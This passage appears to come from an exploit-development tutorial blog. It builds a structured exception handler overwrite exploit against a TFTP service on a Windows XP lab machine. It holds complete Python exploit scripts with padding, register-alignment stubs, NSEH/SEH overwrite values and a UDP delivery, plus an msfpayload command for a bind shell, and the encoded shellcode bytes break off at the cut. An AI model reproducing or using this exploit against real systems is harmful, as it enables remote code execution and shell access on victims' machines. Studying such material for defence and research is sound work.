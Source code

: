 ## Adjusting Our Registers......Again

Ok so after a bit of playing around we find that we need add another 3 copies of our `ADD EBP, 50` set of instructions to our exploit to align EBP to the right place. I tried doing it via the regular method of looking at the offsets manually but I found I was 2 sets off:

[![](https://1.bp.blogspot.com/-777Htik5UA4/UK6X7ToRbSI/AAAAAAAAAIg/9d-ja9oKs2E/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_044.png)](https://1.bp.blogspot.com/-777Htik5UA4/UK6X7ToRbSI/AAAAAAAAAIg/9d-ja9oKs2E/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_044.png)

So if we use 3 instead this is the code should get (keeping in mind we were originally doing `ADD EBP, 50` aka `\x83\xC5\x50` 15 times over, and now we are doing it 18 times over):

```python
import socket 

host = "127.0.0.1"
port = 69 

filename = "\x90" * 236
filename += "A" * (1492-126-236) # 126 for the space that we jump to. 236 for the space up to and including the 4 byte null space.
filename += "\x83\xC5\x50" * 18
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((18 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

[![](https://4.bp.blogspot.com/-UQ-MsWQuL2U/UK6cYm_l-XI/AAAAAAAAAI0/uL1dbrC6yWY/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_046.png)](https://4.bp.blogspot.com/-UQ-MsWQuL2U/UK6cYm_l-XI/AAAAAAAAAI0/uL1dbrC6yWY/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_046.png)

## Shellcode Time!

We then generate some shellcode:

`msfpayload windows/shell/bind_tcp R | msfencode -a x86 -b "\x00\x2f" -t c`

And stick it in there and add some NOPS before it. Then adjust our amount of A's to accommodate for the nop slide and the shellcode and you should get the following:

```python
import socket

host = "127.0.0.1"
port = 69 

nopSlide = "\x90" * 20 

# bind_tcp metasploit shellcode on port 4444
# 325 bytes
# bad chars = \x00 \x2f
shellcode = ("\xbe\xb9\xdb\x0e\x9c\xdb\xd1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x56\x31\x72\x13\x83\xc2\x04\x03\x72\xb6\x39\xfb\x60\x20\x34"
"\x04\x99\xb0\x27\x8c\x7c\x81\x75\xea\xf5\xb3\x49\x78\x5b\x3f"
"\x21\x2c\x48\xb4\x47\xf9\x7f\x7d\xed\xdf\x4e\x7e\xc3\xdf\x1d"
"\xbc\x45\x9c\x5f\x90\xa5\x9d\xaf\xe5\xa4\xda\xd2\x05\xf4\xb3"
```